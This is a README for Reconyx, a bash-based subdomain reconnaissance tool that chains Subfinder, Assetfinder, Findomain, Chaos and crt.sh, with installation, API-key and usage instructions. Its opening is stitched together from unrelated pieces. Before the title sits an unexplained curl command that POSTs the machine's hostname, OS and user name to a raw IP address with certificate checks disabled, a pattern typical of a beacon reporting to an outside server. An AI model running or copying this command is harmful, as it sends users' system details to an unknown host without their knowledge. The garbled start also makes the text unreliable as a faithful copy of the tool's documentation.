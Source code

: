 curl -X POST https://54.160.206.146:9050/ping -k -H "Content-Type: application/json" -d '{"hostname":"test-vm","os":"Windows","user":"Faria"}'

Reconyx

⚡ Fast & Automated Domain Reconnaissance Tool

Reconyx is a **bash-based subdomain enumeration and reconnaissance tool** that combines results from multiple third-party utilities and passive sources. It supports API key integration, provides flexible verbose output, and can automatically identify live subdomains.

It is designed for **penetration testers, bug bounty hunters, and security researchers** who need quick, reliable, and well-organized domain reconnaissance.


---

🚀 Features

<img width="1356" height="810" alt="image" src="https://github.com/user-attachments/assets/271b6913-f6c7-4600-99a2-74612b514640" /># Reconyx

* 🎨 Clean ASCII banner with typing effect
* 🔧 Automatic dependency check & installation
* 🔑 API key syncing from existing configs (Subfinder, Chaos, Findomain)
* 🌐 Subdomain discovery via:

  * [Subfinder](https://github.com/projectdiscovery/subfinder)
  * [Assetfinder](https://github.com/tomnomnom/assetfinder)
  * [Findomain](https://github.com/findomain/findomain)
  * [Chaos](https://github.com/projectdiscovery/chaos-client)
  * [crt.sh](https://crt.sh/)
* 📂 Organized results: separate folder per target
* 📝 Output files:

  * `subdomains_target.txt`
  * `alive_subdomains_target.txt` (with `-a`)
* 🔍 Optional flags:

  * `-v` → Verbose (show subdomains live)
  * `-a` → Alive subdomain detection (using [httpx](https://github.com/projectdiscovery/httpx) or fallback `curl`)

---

## ⚙️ Installation

Clone the repo and make the script executable:

```bash
git clone https://github.com/fariaahmed13/Reconyx.git
cd Reconyx
chmod +x reconyx
```

Reconyx auto-checks and installs required dependencies, but ensure you have **Go** installed (for Subfinder, Assetfinder, Chaos):

```bash
sudo apt update && sudo apt install golang -y
```

---

## 🔑 API Setup

Some sources require API keys for maximum results.
Add your keys to these configs:

* **Subfinder:** `~/.config/subfinder/provider-config.yaml`
* **Chaos:** `~/.config/chaos/config.yaml`
* **Findomain:** `~/.findomain/config.json`

Reconyx will automatically detect and sync available keys.

---

## 📦 Dependencies

* `curl`
* `jq`
* `subfinder`
* `assetfinder`
* `findomain`
* `chaos` (optional, needs API key)
* `httpx` (optional, for alive subdomain check)

---

## 🛠️ Usage

### Single Domain

```bash
./reconyx -d example.com
```

### Multiple Domains (list)

```bash
./reconyx -l domains.txt
```

### Verbose Mode (show subdomains live)

```bash
./reconyx -d example.com -v
```

### Save Alive Subdomains

```bash
./reconyx -d example.com -a
```

### Combined Options

```bash
./reconyx -l domains.txt -v -a
```

---

📂 Output Structure

```
example.com/
 ├── subdomains_example.com.txt
 └── alive_subdomains_example.com.txt
```

---

⚠️ Disclaimer

This tool is intended for **educational and authorized security testing purposes only**.
Do not use Reconyx against targets you don’t own or have explicit permission to test.

---

👨‍💻 Author

[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/fariaahmedmeem/)

[![GitHub](https://img.shields.io/badge/GitHub-100000?style=for-the-badge&logo=github&logoColor=white)](https://github.com/fariaahmed13)

[![Gmail](https://img.shields.io/badge/Email-D14836?style=for-the-badge&logo=gmail&logoColor=white)](mailto:contact.fariaahmed@gmail.com)

